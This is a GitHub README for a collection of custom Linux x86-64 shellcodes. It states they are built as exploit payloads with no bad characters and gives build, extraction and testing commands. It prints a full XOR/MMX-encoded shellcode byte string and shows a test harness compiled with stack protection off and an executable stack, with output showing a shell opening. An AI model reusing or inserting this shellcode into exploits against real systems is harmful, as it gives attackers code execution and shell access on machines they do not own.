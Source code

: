 # SHELLCODE WORLD
Hello people, this is a collection of custom shellcodes build from scratch for intel x86-64 bit architecture. Right now the repository contains shellcode specific to only Linux x86-64 and are tried and tested on Ubuntu 18.04. These are made to be used as an exploit payload (i.e. shellcode without any bad character).

##  CLONING
To clone the repository on your local machine, isuue the bellow given command -
```
critical@d3ad:~$ git clone https://github.com/compilepeace/SHELLCODING_INTEL_x86-64
Cloning into 'SHELLCODING_INTEL_x86-64'...
remote: Enumerating objects: 74, done.
remote: Counting objects: 100% (74/74), done.
remote: Compressing objects: 100% (53/53), done.
remote: Total 74 (delta 24), reused 68 (delta 18), pack-reused 0
Unpacking objects: 100% (74/74), done.

```


##  USAGE
All shellcodes samples can be found in [SHELLCODE_SAMPLES] directory. To generate shellcode on your own just enter the `make` command to assemble into object code as bellow -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ make
nasm -f elf64 exit.asm -o ./OBJECT_FILES/exit.o 
nasm -f elf64 message.asm -o ./OBJECT_FILES/message.o
nasm -f elf64 stack_method_message.asm -o ./OBJECT_FILES/stack_method_message.o
nasm -f elf64 message_rip_relative_addressing.asm -o ./OBJECT_FILES/message_rip_relative_addressing.o
nasm -f elf64 stack_method_execve.asm -o ./OBJECT_FILES/stack_method_execve.o
nasm -f elf64 jmp-call-pop_execve.asm -o ./OBJECT_FILES/jmp-call-pop_execve.o
nasm -f elf64 XOR_ENCODER_DECODER/xor_decoder_execve.asm -o ./OBJECT_FILES/xor_decoder_execve.o
nasm -f elf64 NOT_ENCODER_DECODER/not_decoder_execve.asm -o ./OBJECT_FILES/not_decoder_execve.o
nasm -f elf64 INSERTION_ENCODER_DECODER/insertion_decoder_execve.asm -o ./OBJECT_FILES/insertion_decoder_execve.o
nasm -f elf64 MMX-XOR-ENCODER-DECODER/mmx-xordecoder.asm -o ./OBJECT_FILES/mmx-xordecoder.o
```
To remove all object files generated, issue the bellow given commands -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ make clean
rm ./OBJECT_FILES/exit.o ./OBJECT_FILES/message.o ./OBJECT_FILES/stack_method_message.o ./OBJECT_FILES/message_rip_relative_addressing.o ./OBJECT_FILES/stack_method_execve.o ./OBJECT_FILES/jmp-call-pop_execve.o ./OBJECT_FILES/xor_decoder_execve.o ./OBJECT_FILES/not_decoder_execve.o ./OBJECT_FILES/insertion_decoder_execve.o ./OBJECT_FILES/mmx-xordecoder.o test_shellcode 
```

## EXTRACT SHELLCODE
To extract the shellcode from an object file, use the `./Print_Shellcode` as done bellow -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ ./Print_Shellcode 
Enter the name of object file -> ./OBJECT_FILES/mmx-xordecoder.o

\xeb\x1e\x5e\x48\x8d\x7e\x08\x48\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x07\x48\x83\xc7\x08\xe2\xee\xeb\x0d\xe8\xdd\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xe2\x9b\x6a\xfa\xe2\x11\x85\xc8\xc3\xc4\x85\x85\xd9\xc2\xf9\xe2\x23\x4d\xfa\xe2\x23\x48\xfd\xe2\x23\x4c\x1a\x91\xa5\xaf

``` 
where `./OBJECT_FILES/mmx-xordecoder.o` is path to the object file.

## TESTING PAYLOAD
To generate the payload, put the shellcode into file [test_shellcode.c] into the array code[] and test the payload by issuing the bellow given commands-
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ make payload
gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode

critical@d3ad:~/ASSEMBLY_64-BIT_CODE/Shellcodes$ make runpayload
./test_shellcode
Shellcode length : 92 
$ id
uid=1000(critical) gid=1000(critical) groups=1000(critical),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ 
$ 
$ 

```

I would be pleased to get suggestions for optimization of the shellcode samples. Feel free to open up issues.

You can also email me regarding any queries,<br>
**NAME** : **ABHINAV THAKUR**<br>
**EMAIL**: **compilepeace@gmail.com**


[SHELLCODE_SAMPLES]: ./SHELLCODE_SAMPLES
[test_shellcode.c]: ./test_shellcode.c